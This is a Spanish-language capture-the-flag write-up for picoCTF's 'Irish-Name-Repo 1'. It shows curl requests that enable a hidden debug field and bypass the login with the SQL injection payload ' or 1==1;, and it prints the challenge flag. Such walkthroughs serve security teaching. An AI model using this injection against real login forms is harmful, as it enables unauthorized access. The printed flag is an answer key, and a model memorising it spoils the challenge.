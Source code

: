 # Irish-Name-Repo 1

## Objetivo 
Descripción:
Hay un sitio web en `https://jupiter.challenges.picoctf.org/problem/50009/`( [enlace](https://jupiter.challenges.picoctf.org/problem/50009/) ) o http://jupiter.challenges.picoctf.org:50009. ¿Crees que puedes iniciar sesión con nosotros? ¡Intenta ver si puedes iniciar sesión!

Sugerencias:
No parece haber muchas maneras de interactuar con esto. Me pregunto si los usuarios se mantienen en una base de datos.

Trate de pensar en cómo el sitio web verifica su inicio de sesión.

## Solución
``` shell
//Nos dirijimos al enlace ( [enlace](https://jupiter.challenges.picoctf.org/problem/50009/) )

//nos vamos al menu y luego a soporte donde vemos //el error de sql y vemos que se puede iyectar codigo

//nos vamos al login y vemos el codigo fuente

//aqui podemos ver su codigo y vemos que tiene un //valor oculto <input type="hidden" name="debug" value="0">

//cambiamos ese valor por 1 en el inspector

//username: admin
//password: password
//SQL query: SELECT * FROM users WHERE name='admin' //AND password='password'

//y nos dirigimos al enlas donde esta login
//recuerda que nos tenemos que dirigir en login.php

┌──(mino20㉿kali)-[/home/mino20]
└─PS> curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php 
<h1>Login failed.</h1>

//se me olvido embiar al usuario y la contraseña, //eso lo hacemos con un metodo post para eso //podemos usar el -d y tambien damos el debug con //valor a 1

┌──(mino20㉿kali)-[/home/mino20]
└─PS> curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d 'username=admin&password=password&debug=1'                                                                          
<pre>username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
</pre><h1>Login failed.</h1>


//ahora podemos inyectar la contraseña "'' or 1==1" 
┌──(mino20㉿kali)-[/home/mino20]
└─PS> curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=' or 1==1;&debug=1"                                                                        
<pre>username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>
```

## Notas
La inyección SQL es una técnica de inyección de código que podría destruir su base de datos.

La inyección SQL es una de las técnicas de piratería web más comunes.

La inyección SQL es la colocación de código malicioso en declaraciones SQL, a través de la entrada de una página web.

## Referencias
[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)
